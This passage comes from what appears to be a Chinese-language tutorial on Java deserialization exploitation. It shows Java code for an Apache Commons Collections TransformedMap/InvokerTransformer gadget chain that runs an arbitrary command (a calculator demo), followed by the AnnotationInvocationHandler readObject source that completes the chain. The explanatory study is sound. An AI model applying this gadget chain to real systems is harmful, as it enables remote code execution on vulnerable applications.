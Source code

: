 ```java
                new InvokerTransformer(
                        "exec",
                        new Class[] {String[].class},
                        new Object[] {execArgs}
                )
        };
        Transformer transformerChain = new ChainedTransformer(transforms);
        Map tempMap = new HashMap<String, Object>();
        Map<String, Object> exMap = TransformedMap.decorate(tempMap, null, transformerChain);
        exMap.put("1111", "2222");
        for (Map.Entry<String, Object> exMapValue : exMap.entrySet()) {
            exMapValue.setValue(1);
        }
    }
}
```

根据之前的分析，将上面这段代码编译运行后会默认会弹出计算器，对代码详细执行过程有疑惑的可以通过单步调试进行测试：

![](/images/articles/2015-11-25-untrusted-deserialization-exploit-with-java/5.png)

然后我们现在只是测试了使用 `TransformedMap` 进行任意命令执行而已，要想在 Java 应用反序列化的过程中触发该过程还需要找到一个类，它能够在反序列化调用 `readObject()` 的时候调用 `TransformedMap` 内置类 `MapEntry` 中的 `setValue()` 函数，这样才能构成一条完整的 Gadget 调用链。恰好在 `sun.reflect.annotation.AnnotationInvocationHandler` 类具有 `Map` 类型的参数，并且在 `readObject()` 方法中触发了上面所提到的所有条件，其源码如下：

```java
    private void readObject(java.io.ObjectInputStream s) {
        ...省略...
        for (Map.Entry<String, Object> memberValue : memberValues.entrySet()) {
            String name = memberValue.getKey();
            Class<?> memberType = memberTypes.get(name);
            if (memberType != null) {  // i.e. member still exists
                Object value = memberValue.getValue();
                if (!(memberType.isInstance(value) || value instanceof ExceptionProxy)) {
                    memberValue.setValue(new AnnotationTypeMismatchExceptionProxy(value.getClass() + "[" + value + "]").setMember(annotationType.members().get(name)));
                }
            }
        }
```